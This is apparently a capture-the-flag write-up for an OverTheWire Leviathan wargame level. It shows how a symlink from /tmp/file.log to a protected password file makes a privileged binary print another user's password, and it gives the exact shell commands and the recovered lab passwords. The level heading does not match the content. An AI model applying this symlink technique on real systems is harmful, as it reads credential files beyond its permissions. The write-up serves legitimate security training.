 # OverTheWire Project

### [Project Leviathan:](http://overthewire.org/wargames/leviathan/)

#### Leviathan Level 3 -> 4
> There is no information for this level, intentionally.

The password for the previous level was `Tith4cokei`

Running `ls` shows us there's a executable `leviathan5` which will let us access files with the permissions of `leviathan6`

`./leviathan5` returns `Cannot find /tmp/file.log`
This wouldn't be an issue, but we don't have permission to access the `/tmp` directory.
Instead, we can create a symbolic link with the password file `/etc/leviathan_pass/leviathan6` and the `file.log`

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```

Creating a symbolic link allows us to use `./leviathan5` to open the password file for the next level.

The password found is `UgaoFee4li`
